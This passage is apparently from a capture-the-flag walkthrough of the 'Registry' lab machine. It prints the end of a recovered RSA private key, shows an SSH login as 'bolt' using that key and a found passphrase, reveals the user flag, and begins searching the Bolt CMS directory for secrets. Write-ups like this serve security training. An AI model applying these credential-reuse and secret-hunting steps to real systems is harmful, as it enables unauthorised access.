 ```
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
-----END RSA PRIVATE KEY-----
```

Now we can login as `bolt` user with the help of th `private key` and the `passphrase` which we found in our enumeration. 
```bash
ssh -i bolt.id_rsa bolt@registry.htb

Enter passphrase for key 'bolt.id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

 System information disabled due to load higher than 1.0
Last login: Sat Mar 28 11:09:14 2020 from 10.10.14.93
bolt@bolt:~$ wc -c user.txt
33 user.txt
bolt@bolt:~$ whoami && cat user.txt
bolt
ytc0ytdmnzywnzgxngi0zte0otm3ywzi
```
### www-data 
Let's find for the directory where the `bolt CMS` is present. little bit of looking around we found it at `/var/www/html/bolt`. we'll start digging into the directory for sensitive info. 
